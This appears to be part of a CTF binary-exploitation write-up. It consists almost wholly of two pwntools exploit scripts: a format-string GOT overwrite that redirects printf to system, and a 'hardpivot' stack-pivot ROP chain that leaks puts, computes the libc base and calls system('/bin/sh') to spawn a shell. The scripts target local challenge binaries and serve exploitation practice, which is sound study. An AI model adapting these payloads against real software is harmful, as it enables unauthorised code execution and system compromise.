 ```Python
libc.address=addr-0x29d90
sys_addr=libc.sym['system']
low1 = sys_addr & 0xff
low2 = (sys_addr>>8) & 0xffff 

log.debug(hex(libc.address))
sa(b'sh\x00%')
payload=p64(elf.got['printf'])+p64(elf.got['printf']+1)[:7]
sa(payload)

if low1:
    payload = '%{}c%24$hhn'.format(low1).encode()
else:
    payload = '%24$hhn'.encode()
payload+= '%{}c%25$hn'.format(low2-low1).encode()
payload = payload.ljust(26, b'a')
sa(payload)
p.interactive()
```

# hardpivot

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug', terminal=['wt.exe','wsl'])
#0x000000000002a3e5  pop rdi,ret
#puts got表地址0x403FD0
#gcc -Wl,-z,relro -no-pie -fno-stack-protector -o pwn pwn.c
# p = gdb.debug('./pwn', 'b *vuln+71')
p = process('./pwn')
# p = remote('',)
libc = ELF('./libc.so.6')
bss = 0x4040A0
read_add = 0x401264
pop_rdi = 0x40119e
puts_got = 0x404018
puts_plt = 0x401074
leave_ret = 0x40127b
ret = 0x40101a
new_rbp = 0x4041a0+0x800
new_ret = read_add
payload = b'a' * 0x40 + p64(new_rbp) + p64(new_ret)
p.send(payload)

new_rbp = p64(0x404160+0x800)
new_ret = p64(leave_ret)
payload1 = new_rbp + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(read_add) + p64(leave_ret)
payload1 = payload1.ljust(0x40, b'a') + new_rbp + new_ret 
p.send(payload1)
p.recvuntil(b'> ')
puts_add = u64(p.recv(6).ljust(8, b'\x00'))
print("puts_add:", hex(puts_add))
libc_base = puts_add - 0x80e50
print("libc_base:", hex(libc_base))
system_add = libc_base + 0x50d70
bin_sh = libc_base + libc.search(b'/bin/sh').__next__()
print("system_add:", hex(system_add))
print("bin_sh:", hex(bin_sh))
new_rbp = p64(0x404120+0x800)
payload2 = new_rbp + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system_add)
payload2 = payload2.ljust(0x40, b'a') + new_rbp + p64(leave_ret)
p.send(payload2)
```